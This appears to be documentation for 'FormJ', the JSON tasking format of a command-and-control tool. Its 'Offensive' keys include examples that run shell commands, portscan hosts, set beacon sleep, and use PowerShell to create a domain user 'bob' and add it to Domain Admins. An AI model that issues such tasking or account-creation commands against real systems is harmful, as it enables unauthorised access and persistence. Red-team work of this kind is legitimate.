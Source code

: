 # FormJKeys 

There are a variety of sync keys used with FormJ

# Commands/Offensive

These keys correlate directly to commands run in the shell.

## powershell:

Runs powershell

Attributes:

`command`: Command to run

```
{
  "data": {
    "Powershell": [
      {
        "command": "net user /domain add bob"
      },
      {
        "command": "net group /add Domain Admins bob"
      }
    ],
  },
  "message": "",
  "rid": "b2bae39a-e395-4c71-afc7-8dfb16bb387d",
  "status": 200,
  "timestamp": 1724730258
}
```

## command
Runs a command with something such as os.system or subprocess

Attributes:

`command`: Command to run

```
{
  "data": {
    "command": [
      {
        "command": "whoami"
      },
    ],
  },
  "message": "",
  "rid": "b2bae39a-e395-4c71-afc7-8dfb16bb387d",
  "status": 200,
  "timestamp": 1724730258
}
```

## sleep
Tells client to set new sleep time for X seconds

Attributes:

`sleep`: Command to run

```
{
  "data": {
    "sleep": [
      {
        "time": "10"
      },
    ],
  },
  "message": "",
  "rid": "b2bae39a-e395-4c71-afc7-8dfb16bb387d",
  "status": 200,
  "timestamp": 1724730258
}

```

## portscan
Portscans other hosts

```
"portscan": {
  "target":"127.0.0.1",   # target host to scan
  "start_port":1,         # start port
  "end_port":1024,        # End Port
  "timeout":1             # Timeout to wait on each port in seconds (maybe move to MS?)
}
```



# Utility/data transfer

For other things, there's some keys that do some work behind the scenes

## blob
Carries a blob of data. Useful for moving data around, or just responses from clients. 


Attributes:

`encoding`: Type of encoding that the data is in

`data`: The data itself

`size`: size of the data field. 

```
{
  "data": {
    "blob": [
      {
        "encoding": "text",
        "data": "aaaaaaaahhhhh",
        "size": "1234"
      },
      {
        "encoding": "text",
        "data": "ahhhhhhhhhhhhh",
        "size": "1234"
      }
    ]
  },
  "message": "",
  "rid": "12345-56789-09187",
  "status": 200,
  "timestamp": 1724730258
} 

```



